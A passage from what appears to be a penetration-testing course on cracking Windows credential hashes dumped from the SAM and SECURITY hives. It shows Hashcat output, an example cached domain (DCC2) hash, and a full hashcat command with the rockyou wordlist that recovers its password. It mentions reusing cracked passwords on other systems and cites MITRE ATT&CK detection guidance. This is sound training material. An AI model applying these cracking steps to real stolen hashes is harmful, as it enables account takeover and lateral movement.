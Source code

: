 ```shell-session
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```

We can see from the output that Hashcat was successful in cracking three of the hashes. Having these passwords can be useful in many ways. For example, we could attempt to use the cracked credentials to access other systems on the network. It is very common for users to reuse passwords across different work and personal accounts. Understanding and applying this technique can be valuable during assessments. We will benefit from it anytime we encounter a vulnerable Windows system and gain administrative rights to dump the SAM database.

Keep in mind that this is a well-known technique, and administrators may have implemented safeguards to detect or prevent it. Several detection and mitigation strategies are [documented](https://attack.mitre.org/techniques/T1003/002/) within the MITRE ATT\&CK framework.

## DCC2 hashes

As mentioned previously, `hklm\security` contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed copies of network credential hashes. An example is:

```
inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```

This type of hash is much more difficult to crack than an NT hash, as it uses PBKDF2. Additionally, it cannot be used for lateral movement with techniques like Pass-the-Hash (which we will cover later). The Hashcat mode for cracking DCC2 hashes is `2100`.

```shell-session
$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt

<SNIP>

$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25:ihatepasswords
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 2100 (Domain Cached Credentials 2 (DCC2), MS Cache 2)
Hash.Target......: $DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
Time.Started.....: Tue Apr 22 09:12:53 2025 (27 secs)
Time.Estimated...: Tue Apr 22 09:13:20 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5536 H/s (8.70ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 149504/14344385 (1.04%)
Rejected.........: 0/149504 (0.00%)
Restore.Point....: 148992/14344385 (1.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:9216-10239
Candidate.Engine.: Device Generator
Candidates.#1....: ilovelloyd -> gerber1
Hardware.Mon.#1..: Util: 95%

Started: Tue Apr 22 09:12:33 2025
Stopped: Tue Apr 22 09:13:22 2025
```
